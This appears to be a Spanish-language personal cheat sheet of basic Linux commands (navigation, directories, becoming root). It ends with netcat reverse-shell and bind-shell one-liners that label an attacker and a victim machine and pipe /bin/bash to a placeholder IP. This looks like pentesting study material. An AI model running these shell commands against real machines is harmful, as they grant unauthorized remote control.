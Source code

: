 # Introduction to Linux ❮❯

❯ **Ctrl + l** Limpiamos la pantalla en la consola Linux (l=ele)

❯ **sudo su -** Para ser root
❯ **su root** Para cambiar de usuario y convertirnos en root

❯ **pwd** 'Print Work Directory' nos muestra la ruta actual de trabajo
❯ **cd** 'Change Directory' cambiamos de directorio con una ruta 
	❯ **cd ..** Regresamos un directorio
	❯ **cd home** Podemos ir al directorio home, si en el folder ya se encuentra el folder no es necesario poner un /
	❯ **cd /home/user/downloads** Podemos ir a un folder especifico con la ruta absoluta
❯ **ls** Podemos ver el contenido de un folder
	❯ **ls -la** Podemos ver el contenido de un folder, ademas de archivos ocultos
❯ **mkdir Dir1** Podemos crear un directorio, en este caso llamado Dir1
❯ **rmdir Dir1** Podemos eliminar el folder creado 

Rever Shell
❯ **nc -nlvp 443** Maquina atacante para recibir la ReverShell de Netcat 'Listening'
❯ **nc ❮IP❯ 443 -e /bin/bash** Maquina victima para mandar la RecerShell 'Connecting'
- IP -> De la maquina de atacante su IP

Bind Shell
❯ **nc ❮IP❯ 443** Maquina atacante 'Connecting'
* IP -> Es la IP de la maquina victima
❯ **nc -nlvp 443 -e /bin/bash** Maquina victima 'Listening'